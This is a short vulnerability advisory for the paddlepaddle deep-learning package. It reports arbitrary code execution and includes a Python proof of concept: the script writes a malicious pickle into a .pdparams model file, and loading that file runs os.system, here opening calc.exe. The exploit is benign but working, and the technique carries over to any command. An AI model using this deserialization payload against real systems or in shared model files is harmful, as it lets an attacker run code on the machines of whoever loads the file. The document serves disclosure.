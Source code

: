 ## :writing_hand: Description

`paddlepaddle` is an industrial platform with advanced technologies and rich features that cover core deep learning frameworks, basic model libraries, end-to-end development kits, tools & components as well as service platforms. This package is vulnerable to `Arbitrary Code Execution`.

## :male_detective: Proof of Concept

#### Installation
```bash
pip install paddlepaddle
```

#### Run exploit.py
```python
#!/usr/bin/env python3

import pickle
import os
import paddle

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('calc.exe', ))

payload = pickle.dumps(EvilPickle())

with open('payload.pdparams', 'wb') as file:
    file.write(payload)

paddle.fluid.load_program_state('payload')
```
